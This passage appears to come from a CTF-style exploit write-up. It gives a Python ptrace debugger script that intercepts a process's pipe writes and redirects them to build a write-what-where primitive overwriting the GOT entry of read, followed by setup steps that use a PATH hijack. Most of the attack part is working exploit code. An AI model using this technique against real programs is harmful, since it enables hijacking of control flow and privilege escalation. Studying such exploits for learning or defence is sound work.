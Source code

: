 The code is actually quite simple. It sets 2 breakpoints, one before the write of i in the pipe and the second before the write of runtime. In each case eax points to the data that will be written, we simply  point it to another address with our own supplied data. Note that in this debugger, breakpoint are removed after being hit so they will be executed only for the first command. To test that it works, we overwrite the address of read in the GOT with 0x41424344.

```python
import sys
import struct
from gdb import Gdb
from ptrace.debugger import PtraceDebugger, ProcessSignal, ProcessExit
pid = sys.argv[1]
gdb = Gdb()
gdb.debugger = PtraceDebugger()
gdb.process  = None
gdb.attachProcess(pid)
print("[!] attached to {0}".format(pid))
#gdb.breakpoint("0x80487e0")
gdb.breakpoint("0x080487d6")
gdb.breakpoint("0x08048802")
while(True):
    try:
        gdb.cont()
        eip = gdb.process.getreg("eip")
        print("EIP: {0}".format(hex(eip)))
        #if eip == 0x80487e0:
        #    print("pipe descriptor: {0}".format(hex(gdb.process.getreg("eax"))))
        # WRITE WHERE
        if eip == 0x80487d6:
            eax = gdb.process.getreg("eax")
            i = gdb.process.readBytes(eax, 4)
            print("Current id loc: {0} value : {1}".format(hex(eax), struct.unpack("<I",i)))
            print("Changing data location for write of id...")
            gdb.process.writeBytes(0x0804a060, struct.pack("<I",63161282))
            gdb.process.setreg("eax", 0x0804a060)
        # WRITE WHAT
        if eip == 0x08048802:
            gdb.process.writeBytes(0x0804a060, struct.pack("<I", 0x08048828) + "\xFF\xF1\xF2\xF3")
            gdb.process.setreg("eax", 0x0804a060)
    except ProcessSignal, event:
        print("[!] Event {0}".format(event))
        continue
    except ProcessExit, event:
        print(event)
    except Exception, event:
        print("Unhandled exception : {0}".format(event))
        break
```

The setup of our exploit will be as follow :

1. Create an env script that writes PARENTPID to a file named "pid"
2. execute `PATH=.:$PATH rtv`
3. execute rtvtrace.py and attach to the child process
